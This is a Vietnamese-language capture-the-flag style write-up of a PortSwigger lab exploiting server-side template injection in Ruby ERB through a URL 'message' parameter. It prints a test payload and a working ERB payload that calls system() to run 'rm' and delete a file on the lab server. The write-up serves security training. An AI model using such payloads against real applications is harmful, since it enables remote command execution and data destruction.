




# Write-up: Basic server-side template injection

### Tổng quan
Khai thác lỗ hổng **Server-Side Template Injection (SSTI)** trong ứng dụng web sử dụng template engine ERB (Embedded Ruby), nơi tham số `message` trong URL không được lọc, cho phép thực thi mã Ruby tùy ý. Bằng cách sử dụng payload ERB để thực thi lệnh hệ thống, kẻ tấn công xóa file `/home/carlos/morale.txt` và hoàn thành lab.

### Mục tiêu
- Khai thác lỗ hổng **SSTI** trong ERB qua tham số `message`, xác nhận khả năng thực thi mã với payload `<%= 7*7 %>`, và sử dụng lệnh `system` để xóa file `/home/carlos/morale.txt`, hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Pro
- Firefox Browser

### Quy trình khai thác
1. **Khai thác ERB**  
- Khi chọn xem sản phẩm đầu tiên, server trả về thông báo `Unfortunately this product is out of stock` với URL chứa tham số:  
    ```
    GET /product?message=Unfortunately%20this%20product%20is%20out%20of%20stock HTTP/2
    Host: 0am9020u21vw2345q0rs190100tu00rq.web-security-academy.net
    ```  
- **Phân tích**: Tham số `message` có thể được kiểm soát, nghi ngờ tồn tại lỗ hổng SSTI trong template engine:  
      

- Thử payload SSTI cơ bản cho ERB:  
    ```
    GET /product?message=<%=7*7%> HTTP/2
    Host: 0am9020u21vw2345q0rs190100tu00rq.web-security-academy.net
    ```  
- Kết quả: Server trả về giá trị `49`, xác nhận ứng dụng sử dụng ERB và tồn tại lỗ hổng **SSTI**:  
      

2. **Sử dụng lệnh system để thực thi lệnh shell**  
- Sử dụng payload ERB để thực thi lệnh `rm /home/carlos/morale.txt`:  
    ```
    GET /product?message=<%=system("rm%20/home/carlos/morale.txt")%> HTTP/2
    Host: 0am9020u21vw2345q0rs190100tu00rq.web-security-academy.net
    ```  
    
    
- Kết quả: File `/home/carlos/morale.txt` bị xóa, lab xác nhận hoàn thành:  
      

- **Ý tưởng payload**:  
  - Sử dụng SSTI trong ERB để thực thi lệnh hệ thống qua hàm `system`, xóa file `/home/carlos/morale.txt`.  

### Bài học rút ra
- Hiểu cách khai thác lỗ hổng **Server-Side Template Injection** trong ERB, sử dụng cú pháp `<%= %>` để thực thi mã Ruby và lệnh hệ thống như `rm`.  
- Nhận thức tầm quan trọng của việc lọc và mã hóa đầu vào người dùng trong template engine, vô hiệu hóa thực thi mã Ruby trong ERB, và hạn chế quyền truy cập hệ thống trong môi trường production.

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác **Server-Side Template Injection** trong ERB, nhấn mạnh tầm quan trọng của việc lọc đầu vào và bảo vệ template engine để ngăn chặn thực thi lệnh hệ thống trái phép. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 9/2025.*